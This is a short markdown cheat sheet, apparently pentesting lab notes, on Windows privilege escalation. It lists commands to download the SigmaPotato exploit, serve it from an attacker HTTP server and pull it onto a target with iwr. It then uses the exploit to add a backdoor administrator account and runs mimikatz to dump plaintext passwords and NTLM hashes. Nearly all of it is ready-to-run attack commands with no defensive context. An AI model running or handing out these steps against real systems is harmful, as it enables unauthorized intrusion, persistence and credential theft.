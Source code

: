 # Enumerate Privileges of current user
```batch
whoami /priv
```
# Privileges known to lead to Privilege Escalation
* SeImpersonatePrivilege
* SeBackupPrivilege
* SeAssignPrimaryToken
* SeLoadDriver
* SeDebug

In most configurations, IIS (Windows Webserver) will run as LocalService, LocalSystem, NetworkService, or ApplicationPoolIdentity, which all have SeImpersonatePrivilege assigned.

This also applies to other Windows services.
# SeImpersonatePrivilege
To exploit this privilege, SigmaPotato (or other "potato" exploits) can be used to trick "NT AUTHORITY\SYSTEM" into authenticating into a malicious named pipe, allowing us to execute commands as them.
```bash
wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe
```
```bash
python -m http.server 80
```
```powershell
iwr -uri http://$(IP_ADDRESS)/SigmaPotato.exe -OutFile SigmaPotato.exe
```
```powershell
.\SigmaPotato "net user dave4 lab /add"
```
```powershell
.\SigmaPotato "net localgroup Administrators dave4 /add"
```
# Mimikatz
If a user has either of the following privileges, mimikatz can be used:
* SeImpersonatePrivilege
* SeDebugPrivilege

Once mimikatz is transferred to the target windows device, run it as administrator via powershell.

Enable SeDebugPrivilege (require for dumping passwords):
```
privilege::debug
```
Elevate privileges to SYSTEM (also required):
```
token::elevate
```
Dump plaintext and hashed passwords from ALL sources:
```
sekurlsa::logonpasswords
```
Dump only NTLM hashes from SAM database:
```
lsadump::sam
```
